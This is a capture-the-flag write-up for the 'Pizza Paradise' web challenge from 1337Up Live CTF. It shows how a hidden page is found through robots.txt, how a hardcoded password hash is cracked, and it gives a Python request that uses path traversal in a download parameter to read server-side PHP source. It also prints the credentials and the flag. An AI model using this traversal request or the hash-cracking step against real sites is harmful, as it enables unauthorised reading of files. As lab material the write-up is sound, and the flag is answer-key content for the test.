 # 1337Up Live CTF

## Pizza Paradise

> https://pizzaparadise.ctf.intigriti.io

Path traversal vulnerability.

## Approach

### Log in to the secret page

Find `/secret_172346606e1d24062e891d537e917a90.html` in `/robots.txt`.

In `auth.js`:

```js
const validUsername = "agent_1337";
const validPasswordHash =
  "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";
```

Use hashcat or https://crackstation.net to get the plaintext of password:

![pwd.jpg](pwd.jpg)

### Path traversal

After logging in, it is a page to download pictures, and there is a path traversal vulnerability. After some searching, the flag is in the PHP source code of the page.

```python
import requests

# login with agent_1337, intel420

path = "/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php"
url = f"https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download={path}"
resp = requests.get(url)
print(resp.text)
```

## Flag

`INTIGRITI{70p_53cr37_m15510n_c0mpl373}`
